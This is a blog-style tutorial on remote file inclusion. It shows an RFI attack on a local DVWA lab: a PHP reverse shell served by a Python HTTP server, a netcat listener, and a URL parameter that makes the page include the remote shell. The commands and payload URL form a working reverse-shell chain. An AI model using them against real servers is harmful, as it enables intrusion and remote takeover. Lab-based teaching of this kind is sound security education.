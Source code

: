 ```yaml
---
title: Remote file inclusion
date: 14,sep 2022 01:22 AM
categories : [Penetration Tester, Web Hacking ,file inclusion]
tags: [web hacking , file inclusion ]
---
```

# Remote file inclusion (RFI)
![global pic](/assets/rfi.jpg)
## What is RFI
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts , so the hacker can host his web server in the client of the victim that's to give him the power to do a lot of things :
- Code execution on the web server
- Executing client-side code like JavaScript that can lead to other attacks like Cross-site scripting (XSS).
- Denial of Service (DoS)
- Data Theft / Manipulation


![global pic](/assets/rfi2.jpg)
---

## how hacker discover this vulnerabilities

[See this post](https://chalalsaad.github.io/posts/file-inclusion-first-post/)

---

## Remote file inclusion examples
i will attack my [DVWA](https://www.kali.org/tools/dvwa/) lab 




![global pic](/assets/rfi3.png)



First we need [reverse PHP shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) This  script will open an outbound TCP connection from the web server to a host and port of your choice.  Bound to this TCP connection will be a shell.if you are php developer you can build your own , is available in [GitHub](https://github.com/pentestmonkey/php-reverse-shell):

Open the php-reverse-shell.php file by nano or any editor and try to verify double thing of course the ip and the port

![ reverse shell](/assets/rfi4.png)

---
Now we need to create a web server ,me i use [python web  server](https://pythonbasics.org/webserver/) ,you can use other  one doesn't matter.

To start a webserver run the command below:
```shell
python3 -m http.server 8888
```
![global pic](/assets/rfi7.png)

![ reverse shell](/assets/rfi5.png)


Now i will use [netcat](https://fr.wikipedia.org/wiki/Netcat) to listening in the target by his port , so netcat functions as a back-end tool that allows for port scanning and port listening.

To start listening on 4444:
```shell
  sudo nc -lvnp 4444
```
- -l :  listen mode, for inbound connects
- -v           verbose [use twice to be more verbose]
- -n           numeric-only IP addresses, no DNS
- -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])

![ reverse shell](/assets/rfi6.png)

Ultimate step is run this shell in the victim client 
```http
 http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://0.0.0.0:8888/php-reverse-shell.php
```
![ reverse shell](/assets/rfi8.png)

---
![ reverse shell](/assets/rfi9.png)

### our shell is get in the web server of the victim with successfully


![ reverse shell](/assets/rfi10.png)

### now we have the full control on the server, we can run any command we want and access to any hidden file


![ reverse shell](/assets/rfi11.png)







